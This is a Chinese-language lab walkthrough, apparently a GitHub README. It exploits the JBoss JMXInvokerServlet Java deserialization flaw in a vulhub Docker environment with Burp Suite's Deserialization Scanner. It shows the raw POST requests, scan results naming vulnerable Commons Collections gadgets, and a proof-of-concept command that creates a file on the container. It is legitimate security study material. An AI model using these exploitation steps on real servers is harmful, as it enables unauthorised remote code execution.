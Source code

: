 # Jboss_JMXInvokerServlet_Deserialization_RCE

![](./Jboss_JMXInvokerServlet_Deserialization_RCE.jpg)

## 使用Burp Suite利用Java反序列化漏洞



### 0x01 搭建Jboss JMXInvokerServlet 反序列化漏洞

#### 测试环境： JBoss JMXInvokerServlet 反序列化漏洞
#### 漏洞原理：JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker-compose up -d
jmxinvokerservlet-deserialization_jboss_1 is up-to-date

root@kali:~# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                      
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                4 hours ago         Up 4 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->999
```

## 0x02 访问/invoker/JMXInvokerServlet, 将post数据包发送到Deserialization Scanner -Manual testing

BurpSuite 历史记录，如果/invoker/JMXInvokerServlet路径存在，页面返回200状态码
```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

aaaa
```
response返回 Java serialization data, version 5
文件头以aced0005737200246f72672e6a626f73开头

将/invoker/JMXInvokerServlet ,POST流量发送到DS插件里面
右击,点击 Send request to DS-Manual testing

### 设置序列化点
选择存在序列化的位置，由于JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的序列化对象.
设置aaaa为序列化点，全选aaaa
然后点击 Set Insertion Point
此时POST数据变成了 $aaaa$

```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

§aaaa§
```

### 扫描$aaaa$是否存在序列化漏洞
点击 Attack

提示
```
SCANNING IN PROGRESS  //正在进行扫描
Scanning can go on approximately from 1 second up to 3 minutes, based on the number of vulnerable libraries founded
//根据创建的易受攻击的库的数量，扫描可以持续大约1秒到3分钟
```

稍等

```
Results:

Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!
Spring Alternate Payload (Sleep): NOT vulnerable.
Apache Commons Collections 4 (Sleep): NOT vulnerable.
JSON (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 2 (Sleep): NOT vulnerable.
ROME (Sleep): NOT vulnerable.
Apache Commons Collections 4 Alternate payload (Sleep): NOT vulnerable.
Java 8 (up to Jdk8u20) (Sleep): NOT vulnerable.
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!!
Hibernate 5 (Sleep): NOT vulnerable.
Commons BeanUtils (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!!
Spring (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!
END

IMPORTANT NOTE: High delayed networks may produce false positives!
```
可能存在危害的利用方法
```
Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!   //可能有害！
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!  //可能有害！
```

右击发送到 Send to Exploitation tab


默认
`CommonsCollections1 COMMAND`
改为
`CommonsCollections1 "touch /tmp/jas502n"`

点击 Attack

进入docker服务器，查看/tmp/jas502n文件是否创建成功

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                            NAMES
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                5 hours ago         Up 5 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->9990/tcp   jmxinvokerservlet-deserialization_jboss_1

root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker exec -it 65b3707b9419 /bin/bash
[root@65b3707b9419 /]# cd /tmp
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# rm jas502n 
rm: remove regular empty file 'jas502n'? y
[root@65b3707b9419 tmp]# 
[root@65b3707b9419 tmp]# ls
hsperfdata_root
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# 
```

## 参考链接：
https://github.com/vulhub/vulhub/blob/master/jboss/JMXInvokerServlet-deserialization/README.md

https://youtu.be/F3bPD_uGXKc
